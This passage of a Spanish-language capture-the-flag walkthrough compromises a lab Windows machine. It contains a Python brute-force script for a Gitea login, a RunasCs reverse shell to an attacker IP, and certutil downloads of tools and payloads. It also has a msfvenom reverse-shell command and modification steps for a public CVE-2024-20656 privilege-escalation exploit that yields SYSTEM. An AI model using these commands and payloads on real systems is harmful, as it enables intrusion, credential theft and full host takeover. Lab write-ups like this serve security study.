Lateralmente podríamos haber hecho fuerza bruta al Gitea y probablemente hubieramos tardado menos en conseguir esta credencial.

De hecho, he hecho un script para hacer fuerza bruta y en términos de ahorro de tiempo, hubiera salido mas rentable.
```python
#!/usr/bin/python3
import requests
from pwn import *
import signal

username = "emily"
base_url = "http://10.129.255.250:3000/user/login"
rockyou = "/usr/share/wordlists/rockyou.txt"

def def_handler(a, b):
    print("[x] Saliendo...")
    exit(0)

signal.signal(signal.SIGINT, def_handler)

def do_request(username, pwd):
    s = requests.Session()
    r = s.get(base_url)
    headers = {
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = {
        "_csrf" : r.cookies['_csrf'],
        "user_name": username,
        "password": pwd
    }
    res = s.post(base_url, headers=headers, data=data)
    if ("Username or password is incorrect." not in res.text):
        return True
    return False
    
def brute():
    p = log.progress("Bruteforcing...")
    with open(rockyou, "r", encoding="utf-8") as file:
        for pwd in file:
            p.status("Probando: " + pwd)
            password = pwd.strip()
            if (do_request(username, password) == True):
                p.success("La madafakin contraseña es " + password)

if __name__ == "__main__":
    brute()
```

```shell
$ python3 brute.py 
[+] Bruteforcing...: La madafakin contraseña es 12345678
```

Bueno, ya sabemos que la contraseña es `12345678`

Ahora con `RunasCs.exe` podemos pivotar de usuario, nos lo subimos en la máquina víctima.

```powershell
PS C:\Windows\temp\work> .\runascs.exe emily 12345678 cmd.exe -r 10.10.14.71:443

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-24db497$\Default
[+] Async process 'C:\Windows\system32\cmd.exe' with pid 3632 created in background.
```

Y conseguimos la shell como `emily` y la flag que está en `C:\Users\Emily\Desktop\user.txt`.
```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.71] from (UNKNOWN) [10.129.255.250] 51697
Microsoft Windows [Version 10.0.19045.4651]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
compiled\emily
```

# Privilege Escalation
Ahora, me paso el `winpeas.exe` para ejecutarlo como el usuario `Emily`.

```cmd
C:\Users\Emily\Desktop>certutil.exe -urlcache -f http://10.10.14.71:8000/winpeas.exe winpeas.exe
certutil.exe -urlcache -f http://10.10.14.71:8000/winpeas.exe winpeas.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

Encontramos lo siguiente.
```
���������͹ Found NFS Exports Files
File: C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\Common7\IDE\CommonExtensions\Microsoft\Web\Exports
```

**He necesitado ver una pista para conseguir la escalada...**

Si ejecutamos  `powershell Get-Service`, detectaremos la presencia de un servicio llamado `VSStandardCollectorService150`


No quiero entrar en detalles de este exploit pero este [artículo](https://www.mdsec.co.uk/2024/01/cve-2024-20656-local-privilege-escalation-in-vsstandardcollectorservice150-service/) lo explica perfectamente. 

Vamos a descargarnos este [PoC](https://github.com/Wh04m1001/CVE-2024-20656)

Al principio de `main.cpp` vemos esta línea de código.
```C++
#include "def.h"

WCHAR cmd[] = L"C:\\Program Files\\Microsoft Visual Studio\\2022\\Community\\Team Tools\\DiagnosticsHub\\Collector\\VSDiagnostics.exe";
```

Tenemos que cambiarla por la versión de Visual Studio de la máquina víctima.
```cmd
C:\Program Files (x86)\Microsoft Visual Studio>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 352B-98C6

 Directory of C:\Program Files (x86)\Microsoft Visual Studio

01/20/2024  11:13 AM    <DIR>          .
01/20/2024  11:13 AM    <DIR>          ..
01/29/2024  10:07 PM    <DIR>          2019
01/20/2024  02:57 AM    <DIR>          Installer
01/20/2024  03:04 AM    <DIR>          Shared
               0 File(s)              0 bytes
               5 Dir(s)  10,079,305,728 bytes free
```

Entonces lo cambiamos...
`WCHAR cmd[] = L"C:\\Program Files (x86)\\Microsoft Visual Studio\\2019\\Community\\Team Tools\\DiagnosticsHub\\Collector\\VSDiagnostics.exe";`

Luego, tenemos la función `cb1`
```C++
void cb1()
{
    printf("[*] Oplock!\n");
    while (!Move(hFile2)) {}
    printf("[+] File moved!\n");
    CopyFile(L"c:\\windows\\system32\\cmd.exe", L"C:\\ProgramData\\Microsoft\\VisualStudio\\SetupWMI\\MofCompiler.exe", FALSE);
    finished = TRUE;
}
```
Esta función es la responsable de copiar un archivo hasta que la instrucción de mover un archivo anterior sea satisfactoria, por lo cual, podemos modificar esta función para copiar nuestra reverse shell en vez de ejecutar `cmd.exe`

Modificamos la línea...
`CopyFile(L"c:\\windows\\temp\\shell.exe", L"C:\\ProgramData\\Microsoft\\VisualStudio\\SetupWMI\\MofCompiler.exe", FALSE);`

Ahora vamos a compilar el exploit.
Importante hacerlo en el modo `Release` y no `Debug`


Nos descargamos el exploit en la máquina víctima
```cmd
C:\Windows\Temp>certutil.exe -urlcache -f -split http://10.10.14.71:8000/Expl.exe Expl.exe
certutil.exe -urlcache -f -split http://10.10.14.71:8000/Expl.exe Expl.exe
****  Online  ****
  000000  ...
  029000
CertUtil: -URLCache command completed successfully.
```

Generamos con `msfvenom` la reverse shell.
```shell
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.71 LPORT=443 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe
```

Nos lo descargamos en la máquina víctima
```cmd
C:\Windows\Temp>certutil.exe -urlcache -f -split http://10.10.14.71:8000/shell.exe shell.exe
certutil.exe -urlcache -f -split http://10.10.14.71:8000/shell.exe shell.exe
****  Online  ****
  0000  ...
  1c00
CertUtil: -URLCache command completed successfully.
```

Nos ponemos en escucha con `netcat`
```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
```

Ejecutamos el exploit...
```cmd
C:\Windows\Temp>.\Expl.exe
.\Expl.exe
[+] Junction \\?\C:\307146c8-446d-4e27-989d-f86f0c401466 -> \??\C:\dbb62632-3557-4fa5-857a-f8f680171122 created!
[+] Symlink Global\GLOBALROOT\RPC Control\Report.0197E42F-003D-4F91-A845-6404CF289E84.diagsession -> \??\C:\Programdata created!
[+] Junction \\?\C:\307146c8-446d-4e27-989d-f86f0c401466 -> \RPC Control created!
[+] Junction \\?\C:\307146c8-446d-4e27-989d-f86f0c401466 -> \??\C:\dbb62632-3557-4fa5-857a-f8f680171122 created!
[+] Symlink Global\GLOBALROOT\RPC Control\Report.0297E42F-003D-4F91-A845-6404CF289E84.diagsession -> \??\C:\Programdata\Microsoft created!
[+] Junction \\?\C:\307146c8-446d-4e27-989d-f86f0c401466 -> \RPC Control created!
[+] Persmissions successfully reseted!
[*] Starting WMI installer.
[*] Command to execute: C:\windows\system32\msiexec.exe /fa C:\windows\installer\8ad86.msi
[*] Oplock!
[+] File moved!
```

¡Y ya hemos escalado privilegios!
```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.71] from (UNKNOWN) [10.129.255.250] 51726
Microsoft Windows [Versi�n 10.0.19045.4651]
(c) Microsoft Corporation. Todos los derechos reservados.

C:\ProgramData\Microsoft\VisualStudio\SetupWMI>whoami
whoami
nt authority\system
```

Máquina que sinceramente ha sido muy tediosa, y la mejor parte en mi opinión es lo que he aprendido de Git, la escalada de privilegios para mí ha sido un poco bastante tediosa para ser una máquina de dificultad media.

Happy Hacking! 🚀